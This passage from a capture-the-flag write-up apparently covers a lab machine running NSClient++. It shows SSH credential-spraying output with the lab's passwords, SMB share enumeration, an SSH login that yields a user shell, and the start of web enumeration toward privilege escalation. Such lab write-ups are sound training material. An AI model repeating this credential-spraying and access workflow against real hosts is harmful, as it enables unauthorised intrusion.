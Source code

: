 ```shell
SSH         10.10.10.184    22     10.10.10.184     [-] Nadine:Th3r34r3To0M4nyTrait0r5! Authentication failed.
SSH         10.10.10.184    22     10.10.10.184     [-] Nadine:B3WithM30r4ga1n5tMe Authentication failed.
SSH         10.10.10.184    22     10.10.10.184     [+] Nadine:L1k3B1gBut7s@W0rk 
❯ echo "Nadine:L1k3B1gBut7s@W0rk" > Results/credentials.txt
```
We observe that credentials `Nadine:L1k3B1gBut7s@W0rk` are valid for both smb and ssh. We can test smb access with `smbmap`:
```shell
❯ smbmap -H 10.10.10.184 -u Nadine -p "L1k3B1gBut7s@W0rk" --no-banner
                                                                                                    
[+] IP: 10.10.10.184:445	Name: 10.10.10.184        	Status: Authenticated
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Remote Admin
	C$                                                	NO ACCESS	Default share
	IPC$                                              	READ ONLY	Remote IPC
```
We don't have access to the any Disk so there is nothing useful here. If we try connecting ssh:
```shell
❯ ssh Nadine@10.10.10.184
Nadine@10.10.10.184\'s password: # L1k3B1gBut7s@W0rk
nadine@SERVMON C:\Users\Nadine\Desktop>dir 
 Volume in drive C has no label.
 Volume Serial Number is 20C1-47A1

 Directory of C:\Users\Nadine\Desktop

02/28/2022  08:05 PM    <DIR>          .
02/28/2022  08:05 PM    <DIR>          ..
06/16/2022  02:15 PM                34 user.txt    
               1 File(s)             34 bytes      
               2 Dir(s)   6,122,487,808 bytes free 
```
We obtained a user shell as `Nadine`.

## Privilege escalation
After looking for privilege escalation vectors in the target, we didn't finde anything useful in the filesystem. Remember the `https` server found on port 8443.
### Port 8443 enumeration
#### Technology scan
```shell
❯ whatweb https://10.10.10.184:8443
https://10.10.10.184:8443 [302 Found] Country[RESERVED][ZZ], IP[10.10.10.184], RedirectLocation[/index.html]
https://10.10.10.184:8443/index.html [200 OK] Bootstrap, Country[RESERVED][ZZ], HTML5, IP[10.10.10.184], Script[text/javascript], Title[NSClient++], X-UA-Compatible[IE=edge]
```
Toguether with `wappalyzer` extension:
| Technology | Version | Detail |
| :-: | :-: | :-: |
| Bootstrap | - | - |
| HTML5 | - | - |
| NSClient++ | - | - |
